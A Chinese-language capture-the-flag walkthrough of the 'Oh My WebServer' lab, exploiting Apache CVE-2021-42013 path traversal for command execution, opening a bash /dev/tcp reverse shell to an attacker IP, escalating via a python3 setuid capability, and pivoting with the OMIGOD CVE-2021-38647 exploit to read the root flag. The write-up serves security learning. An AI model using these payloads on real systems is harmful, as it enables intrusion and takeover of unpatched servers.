 # Oh My WebServer

循例，nmap扫一波

发现只开22和80

开burp进80的web看一眼，顺便gobuster扫一波

web好像没啥东西，但是gobuster扫到了一个熟悉的目录 /cgi-bin

虽然我对这个目录不了解，但cgi这个名字还是了解过的，所以我觉得这肯定有东西，于是去百度搜一下资料

果然，CVE-2021-42013

仅适用于apache2.4.49和2.4.50

根据一番了解过后，构造：

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> <font color="#FEA44C">&apos;http://10.10.95.75/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash&apos;</font> <font color="#9755B3">-H</font> <font color="#FEA44C">&apos;Content-Type: text/plain&apos;</font> <font color="#9755B3">-d</font> <font color="#FEA44C">&apos;echo; whoami&apos;</font>                
daemon
                                     </pre>

我们目录穿越到/bin/bash，作为我们的处理程序，我们的data就会被传入bash处理


---

reverse shell:

<pre><font color="#367BF0">──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">curl</font> <font color="#FEA44C">&apos;http://10.10.95.75/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash&apos;</font> <font color="#9755B3">-H</font> <font color="#FEA44C">&apos;Content-Type: text/plain&apos;</font> <font color="#9755B3">-d</font> <font color="#FEA44C">&apos;echo; whoami &amp;&amp; bash -i &gt;&amp; /dev/tcp/10.11.17.14/8888 0&gt;&amp;1&apos;</font>
</pre>


get到shell之后也是传统手艺信息收集

结果看到了惊喜：

<pre>daemon@4a70924bafa0:/bin$ getcap -r / 2&gt;/dev/null
/usr/bin/python3.7 = cap_setuid+ep
</pre>

成功提权root

<pre>daemon@4a70924bafa0:/bin$ /usr/bin/python3.7 -c &quot;import os;os.setuid(0);os.system(&apos;/bin/bash&apos;)&quot;       
root@4a70924bafa0:/bin# whoami
root
</pre>

但是只有user.txt，没有root.txt

继续找，然后没办法，一些命令也被删除了，去看了一下别人的做法

怀疑内网存在其他设备或者docker

然后把nmap传进去扫一下内网

nmap可执行文件：https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/nmap

庆幸的是curl命令没有被删除

    root@4a70924bafa0:/# curl http://10.11.17.14:8000/nmap -o /nmap


赋予执行权限：

    root@4a70924bafa0:/# chmod 777 /nmap

运行nmap arp扫内网网段存活主机

    root@4a70924bafa0:/# /nmap -PR 172.17.0.0/16

<pre>Nmap scan report for ip-172-17-0-1.eu-west-1.compute.internal (172.17.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.00057s latency).
Not shown: 1205 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
</pre>

使用端口扫描再看看有没有开其他端口

    root@4a70924bafa0:/# /nmap -sS -p- 172.17.0.1

不是一般的慢，我选择-p 0-10000

看到5986端口开放，百度看一下是:

    WinRM,windows远程桌面管理服务

由于我目前对windows不熟，只好找找有没有能用的cve和exp

[CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647) exploit

将exp传到shell并运行

    root@4a70924bafa0:/# python3 /exp.py -t 172.17.0.1 -p 5986 -c id

    uid=0(root) gid=0(root) groups=0(root)

.

    root@4a70924bafa0:/# python3 /exp.py -t 172.17.0.1 -p 5986 -c "cat /root/root.txt"         
                 
    THM{7f147ef1f36da9ae29529890a1b6011f}

